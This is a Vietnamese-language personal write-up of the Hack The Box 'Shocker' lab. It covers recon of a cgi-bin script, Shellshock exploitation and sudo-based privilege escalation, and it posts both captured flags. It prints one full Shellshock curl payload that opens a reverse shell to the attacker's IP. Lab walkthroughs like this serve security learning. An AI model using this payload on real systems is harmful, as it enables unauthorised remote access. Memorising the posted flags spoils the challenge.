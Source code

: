 ```yaml
---
title: Shocker
Date: 2025-01-07
category: Hack The Box
tags:
  - HTB
  - Shocker
---
```

# Mô tả
Ngẫu hứng đêm phia ^^. Vì nay nhức chân không thể chạy bộ theo kế hoạch, chán quá không biết làm gì thôi thì làm một bài easy cho đỡ chán.
Lướt mô tả của các bài easy một hồi thì mình quyết định chọn bài này, vì nó làm mình nhớ đến cái bug huyền thoại thời nào.
Đây là mô tả của bài lab để bạn biết cụ thể hơn mình đang nói điều gì :)))

![Screenshot](/assets/htb/Pasted image 20250107002756.png)
# Attack
## Recon
Như thường lệ, vẫn là `nmap`.

![Screenshot](/assets/htb/Pasted image 20250107003411.png)

Vẫn là port 80 quen thuộc. Truy cập web thôi.

![Screenshot](/assets/htb/Pasted image 20250107005044.png)

Giao diện web cũng không có gì vui. Như một thói quen thời sinh viên, dirsearch thử xem có thư mục hay file nào hay ho không.

![Screenshot](/assets/htb/Pasted image 20250107003800.png)

Kết quả từ gobuster cũng vọn vẹn nhiêu đây. À há có `cgi-bin` kìa. Thử dirsearch phát nữa xem có gì hot.

![Screenshot](/assets/htb/Pasted image 20250107005222.png)

Ây da, lòi ra một file `.sh`.

![Screenshot](/assets/htb/Pasted image 20250107005233.png)

Truy cập vào thì chỉ có bấy nhiêu thông tin => Hơi thất vọng.
`Just an uptime test script` -> đây có vẻ như là một lệnh nào đó của linux. Đúng rồi đó là lệnh `uptime`.
## Exploit Shellshock
Mà ủa "làm vậy để làm chi ?", thật sự tới đây mình chưa hiểu được vấn đề ở đây là gì ? Thôi thì tạm để nó qua một bên vậy.
Nhớ lại đoạn mô tả của bài lab này có nhắc đến `Shellshock exploit`. Đây cũng chính là lỗ hổng trong truyền thuyết mà mình đã nhắc ở đầu bài viết. Cứ thử exploit thử xem sao đã.

![Screenshot](/assets/htb/Pasted image 20250107013223.png)

Ngol lụm luôn.
## Flag 1
![Screenshot](/assets/htb/Pasted image 20250107013519.png)

Flag 1: `94f6590c169a65d3375d01d7b2786046`
## Privileges
Vẫn như thói quen hồi đại học. Cứ hễ nghĩ đến leo quyền là nhanh tay gõ lệnh `sudo -l`.

![Screenshot](/assets/htb/Pasted image 20250107014136.png)

May thay đây cũng là một lab dạng easy nên có ngay kết quả chưa một binary có thể dùng quyền sudo mà không cần password.
Chuyện leo quyền bây giờ trở nên đơn giản hơn rồi. Việc còn lại là viết một payload sử dụng perl call tới /bin/bash như người dùng root là xong.
Do là gom chung vào 1 payload khá là khó chẹo nên mình quyết định reverse shell vào user `shelly` rồi sau đó leo quyền cho dễ.

![Screenshot](/assets/htb/Pasted image 20250107015655.png)

Payload: `curl -A '() { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.16.14/2804 0>&1' http://10.129.206.242/cgi-bin/user.sh`.
## Flag 2
![Screenshot](/assets/htb/Pasted image 20250107020250.png)

Flag 2: `bb1604537f6b21a35dab9402628b959a`.
